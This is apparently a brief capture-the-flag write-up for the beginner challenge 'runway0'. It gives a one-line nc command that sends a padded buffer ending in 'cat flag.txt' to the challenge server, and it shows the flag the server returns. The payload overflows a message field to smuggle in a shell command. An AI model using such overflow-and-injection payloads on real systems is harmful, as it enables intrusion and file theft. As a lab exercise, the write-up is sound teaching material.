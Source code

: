 # runway0

Solved by: @OS1RIS

### Question
If you've never done a CTF before, this runway should help!

Hint: MacOS users (on M series) will need a x86 Linux VM. Tutorial is here: pwnoh.io/utm

### Solution:

```echo 'AAAAABBBBBCCCCCDDDDDEEEEEFFFFFGGGGGHHHHHIIIIIJJJJJKKKKKLLLLLMMMMMNNNNNOOOOOPPPPPQQQQQRRRRRSSSSSTTTTTUUUUUVVVVVWWcat flag.txt' | nc challs.pwnoh.io 13400
Give me a message to say!
bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}```

**Flag:** `bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}`
